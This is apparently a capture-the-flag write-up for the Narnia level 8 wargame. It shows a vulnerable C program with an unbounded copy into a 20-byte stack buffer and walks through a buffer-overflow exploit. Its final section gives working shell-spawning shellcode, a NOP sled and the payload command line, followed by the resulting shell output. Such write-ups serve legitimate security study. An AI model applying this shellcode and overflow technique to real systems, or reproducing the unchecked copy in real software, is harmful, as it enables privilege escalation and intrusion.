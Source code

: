 <pre> ```c #include &lt;stdlib.h&gt; #include &lt;string.h&gt; // gcc's variable reordering fucked things up // to keep the level in its old style i am // making "i" global until i find a fix // -morla int i; void func(char *b){ char *blah = b; char bok[20]; // int i = 0; memset(bok, '\0', sizeof(bok)); for(i = 0; blah[i] != '\0'; i++) bok[i] = blah[i]; printf("%s\n", bok); } int main(int argc, char **argv){ if(argc > 1) func(argv[1]); else printf("%s argument\n", argv[0]); return 0; } ``` ## Narnia8 - Buffer Overflow Exploitation ### 🧠 Goal Gain a shell as `narnia9` by exploiting a buffer overflow in the `narnia8` binary. --- ### ✅ Step 1 – Review the vulnerable code The `func()` copies user input to a 20-byte buffer without bounds checking: ```c for(i = 0; blah[i] != '\0'; i++) bok[i] = blah[i]; ``` - `bok` has 20 bytes. - Input from `blah` is copied without bounds checking. - A buffer overflow occurs by overwriting the saved return address (EIP). - `i` is global, which affects stack layout slightly. --- ### ✅ Step 2 – Exploit strategy - Inject a shellcode in an environment variable: `SHELLCODE`. - Fill the buffer and overwrite return address to jump to shellcode. - Used NOP sled to increase chances of successful jump. --- ### ✅ Final Payload We calculated the offset, leaked the environment address via GDB: ```bash export SHELLCODE=$(python3 -c 'import sys; sys.stdout.buffer.write(b"\x90"*50 + b"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80")') ./narnia8 $(python3 -c 'import sys; sys.stdout.buffer.write(b"A"*20 + b"\x71\xd5\xff\xff" + b"AAAA" + b"\xc0\xd5\xff\xff")') ``` --- ### ✅ Result ```bash bash-5.2$ whoami narnia9 ``` --- </pre>
